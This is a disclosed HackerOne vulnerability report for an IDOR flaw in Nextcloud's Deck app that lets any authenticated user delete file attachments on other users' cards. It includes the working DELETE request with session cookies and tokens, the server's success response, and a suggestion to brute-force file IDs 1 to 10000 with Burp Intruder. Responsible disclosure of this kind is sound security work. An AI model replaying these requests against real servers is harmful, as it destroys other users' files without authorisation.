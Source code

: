 # Possibility to delete files attached to deck cards of other users

## Report Details
- **Report ID**: 1755555
- **URL**: https://hackerone.com/reports/1755555
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-10-30T17:13:12.582Z
- **Disclosed**: 2023-01-09T11:40:38.262Z

## Reporter
- **Username**: supr4s
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Hi everyone,

Hope you are well ! 

I come to report here an IDOR vulnerability on the Deck application of Nextcloud, allowing to delete any attached file(s) on any cards. 

Nextcloud deck app version : latest stable `1.8.0`

## Steps To Reproduce:

The Nextcloud Deck application now offers the ability to add an attachment to its own card.
If the user deletes the attached attachment, the following POST request is made : 

```
DELETE /apps/deck/cards/63/attachment/file:116 HTTP/2
Host: redacted
Cookie: oc_sessionPassphrase=1icX1AnixyJWysU9xZCwhaEr%2Bb8TM%2FNvgck%2F1nv216h1fLefCLcWN5Vt%2BgO3%2BXH3wj4Xpo0GW4mLDt52A32%2FVZb4xUZKZq0kgpbIC1InAY8bT1UF4Ef%2BFD7ciOexHI1X; __Host-nc_sameSiteCookielax=true; __Host-nc_sameSiteCookiestrict=true; oc0xwy77immd=rm2tmgi1rtb2vs9mu7pvcnf4t8; nc_username=Test2; nc_token=6xcZzamP8jrozO48GlKsCTLiIouKgz0P; nc_session_id=rm2tmgi1rtb2vs9mu7pvcnf4t8
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: application/json, text/plain, */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Requesttoken: redacted
Origin: redacted
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: green
Te: trailers
```

The `file` parameter does not offer any protection, and we can come and enter the IDs of files that do not belong to us. It is important to leave the ID of your card (63 here for me). You can then change the file ID at will, even if it is attached to another card with a different ID.

See here the response from the server, after I deleted the file with ID `117`. This file with ID `117` is attached to another user, with its own unshared personal card.

```
HTTP/2 200 OK
Server: nginx
Date: Sun, 30 Oct 2022 16:55:09 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 171
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Cache-Control: no-cache, no-store, must-revalidate
X-Request-Id: xRvBeA7No94R5OvXW2Vt
Content-Security-Policy: default-src 'none';base-uri 'none';manifest-src 'self';frame-ancestors 'none'
Feature-Policy: autoplay 'none';camera 'none';fullscreen 'none';geolocation 'none';microphone 'none';payment 'none'
X-Robots-Tag: none
Referrer-Policy: no-referrer
X-Content-Type-Options: nosniff
X-Xss-Protection: 1; mode=block
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Strict-Transport-Security: max-age=31536000; includeSubDomains;

{"cardId":63,"type":"file","data":"poteau-signalisation-1000mm-o-80mm-orange.jpg","lastModified":0,"createdAt":0,"createdBy":null,"deletedAt":0,"extendedData":[],"id":117}
```

We are here on an IDOR vulnerability, allowing any authenticated user on a Nextcloud server to delete all files attached to all cards available on the server, including cards to which we do not have access.

## Impact

From [OWASP - Broken Access Control](https://owasp.org/www-community/Broken_Access_Control) :

> Many of these flawed access control schemes are not difficult to discover and exploit. Frequently, all that is required is to craft a request for functions or content that should not be granted. Once a flaw is discovered, the consequences of a flawed access control scheme can be devastating. In addition to viewing unauthorized content, an attacker might be able to change or delete content, perform unauthorized functions, or even take over site administration.

Note here that file IDs are incremental, we can easily use a tool like Burp Intruder to fuzz our malicious request and delete file IDs ranging from 1 to 10000 for example, to be sure to impact all users of the server.

Looking forward to exchanging.

Regards,
Supr4s

## Attachments
No attachments
